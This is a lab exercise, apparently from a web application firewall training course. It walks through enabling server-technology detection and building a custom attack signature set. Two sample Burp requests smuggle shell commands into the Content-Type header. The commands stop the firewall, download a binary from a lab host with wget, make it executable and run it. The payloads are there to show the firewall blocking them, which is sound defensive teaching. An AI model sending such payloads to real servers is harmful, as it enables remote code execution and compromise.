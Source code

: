 Exercise 3.3: Server Technologies and Custom Signature Sets
-------------------------------------------------------------

Objective
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In this exercise we will examine server technologies and custom signature sets.  Server Technologies function allows you to automatically discover server-side frameworks, web servers and operating systems.  This feature helps when the backend technologies are not well known.  The feature can be enabled to auto detect.  You can also add the technologies that you know.  Creating custom signature sets allows you to define what signature groupings work best for your needs.  In this exercise we will explore both.

Task 1 - Server Technologies
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  Go to **Security > Application Security > Policy Building > Learning and Blocking Settings**

2.  Locate **Server Technologies** and expand the option.  Click **Enable Server Technology Detection**

.. image:: images/image1_3_3.png
    :width: 600 px

3.  Make sure to save and Apply Policy.

.. NOTE:: Our policy is currently in manual and we would need to manaully accept all server technologies suggestions to build the server technology signature sets.  If the policy were in automatic learning server technologies would automatically be accepted once the threshold was met.

4.  Click on the diagonal arrow to the left of the Enable Server Technology Dectection.  This will open the Server Technologies configuration which can also be found by going to **Security > Application Security > Policy > Server Technologies**

.. image:: images/image2_3_3.png
    :width: 600 px

5. Click on the drop down box and you will find a list of various server-side technologies to choose from.

.. image:: images/image3_3_3.png
    :width: 600 px

6.  Choose **Apache Tomcat** from the list.  You will be prompted that Java Servlet/JSP will also be added.  Click okay

.. image:: images/image4_3_3.png
    :width: 600 px

7.  Choose **Unix/Linux** from the list and click ok.  Make sure to click Save and Apply Policy.

8.  Navigate to **Security > Application Security > Policy Building > Learning and Blocking Settings**

9.  Expand Attack Signatures and you should now see the additional server technology signature sets enabled and in blocking.

.. image:: images/image5_3_3.png
    :width: 600 px

10.  Time to launch some framework attacks.

11. Back in BURP navigate to the repeater tab and adjust the payload to the following and hit go:

::

  POST https://webgoat.f5demo.com/WebGoat/login HTTP/1.1
  User-Agent: ImperialProbeDroid
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: /etc/init.d/iptables stop; service iptables stop; SuSEfirewall2 stop; reSuSEfirewall2 stop; cd /tmp; wget -c https://10.1.10.145:443/7; chmod 777 7; ./7;
  Content-Length: 38
  Host: DarthMaul

  username=f5student&password=password

12. You should receive the Request Rejected Page as output.

13. Run a second framework attack

::

  POST https://webgoat.f5demo.com/WebGoat/login HTTP/1.1
  User-Agent: IG88
  Pragma: no-cache
  Cache-Control: no-cache
  Content-Type: cd /dev/shm; wget http://10.1.10.145:443/lmydess; chmod 777 lmydess; ./lmydess;
  Content-Length: 38
  Host: TheEmpireDidNothingWrong

  username=f5student&password=password

14. Again, you should receive a Request Rejected page as output as shown here:

.. image:: images/image1.png
    :width: 600 px

15. Navigate to the Application Security Event Logs and review the alerts. Notice they are of different severity but how do we know that these were actually framework related signatures?

.. image:: images/image2.png
    :width: 600 px

16. Click on the **Attack Signature Detected** hyperlink and then click on the little blue "i" next to the signature for more information.

.. image:: images/image3.png
    :width: 600 px


.. image:: images/image4.png
    :width: 600 px

Task 2 - Create Custom Signature Set
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1.  Go to **Security > Options > Application Security > Attack Signature > Attack Signature Sets**

2.  Click on Create

Fill out the following -
  - Name - ``my_signature_set``
  - Type - ``filter-based``
  - Default Blocking Actions -  ``leave Learn/Alarm/Block checked``
  - Assign To Policy by Default -  ``Uncheck this box``  (in production enabling this feature ensures this signature set is assigned to all newly created policies)
  - Signature Type -  ``Request``
  - Attack Type -  ``All``
  - Systems -  ``Unix/Linux, Apache, Apache Tomcat, Java Servlets/JSP`` <- Move to the left.
  - Accuracy -  ``All``
  - Risk - ``Greater Than Equal To High``
  - User-defined -  ``All``
  - Update Date -  ``All``

3.  Click on Create.  Now you have a created your own custom signature set of high risk signatures with server side technologies.

.. image:: images/image6_3_3.png
    :width: 600 px

4.  Navigate to **Security > Application Security > Policy Building > Learning and Blocking Settings**

5.  Expand Attack Signatures.  Click on Change and check your newly created signature set. Cick **Change**.

.. image:: images/image7.png
    :width: 600 px

.. image:: images/image8.png
    :width: 600 px

6.  Click Save and Apply policy

7.  Use BURP again with either of the two previous attacks and ensure your new custom signature set is blocking them. Examine the event logs.

